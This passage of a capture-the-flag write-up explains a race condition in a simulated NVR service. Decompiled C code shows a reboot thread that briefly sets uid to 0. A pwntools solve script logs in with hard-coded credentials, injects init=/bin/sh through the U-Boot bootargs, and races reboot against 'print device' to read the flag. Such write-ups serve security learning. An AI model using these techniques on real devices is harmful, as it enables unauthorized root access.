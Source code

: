 If our `uid` is `0` _(which typically indicate root permissions)_, the flag will be printed to us.

Interestingly, one of the commands that we have access to allows us to **reboot the nvr_kernel**.

```c
unsigned __int64 __fastcall reboot_nvr_kernel(int *uid)
{
  pthread_t newthread; // [rsp+10h] [rbp-10h] BYREF
  unsigned __int64 v3; // [rsp+18h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  if ( pthread_create(&newthread, 0LL, (void *(*)(void *))reboot_nvr_kernel_internal, uid) )
    perror("pthread_create");
  else
    pthread_detach(newthread);
  return v3 - __readfsqword(0x28u);
}

void *__fastcall reboot_nvr_system(int *uid)
{
  int v2; // [rsp+14h] [rbp-Ch]

  v2 = *uid;
  *uid = 0;
  puts("Shutdown NVR system...");
  sub_247F();
  *uid = v2;
  puts("Boot complete.\n");
  return 0LL;
}
```

This is done by spawning a new thread which sets `uid` to 0 while the system is still booting.

Since this is done in a separate thread, we can still run commands on the main thread.

**This creates a race condition where we can run `print device` with `uid = 0` while the kernel is rebooting.**

### Solve script

```py
from pwn import *

p = remote("chal.h4c.cddc2025.xyz", 11835)

p.sendlineafter(b"login.", b"")
p.sendlineafter(b"Login:", b"admin")
p.sendlineafter(b"Password:", b"uboot4dmin123!@")

# we need to set init=/bin/sh to get an interactive nvr_system shell
p.sendlineafter(b"uboot>", b'setenv bootargs init=/bin/sh')
p.sendlineafter(b"uboot>", b"boot")

# race condition, reboot and print device at the same time
p.sendlineafter(b"\n#", b"reboot")
p.sendlineafter(b"\n#", b"print device")

p.interactive()
```
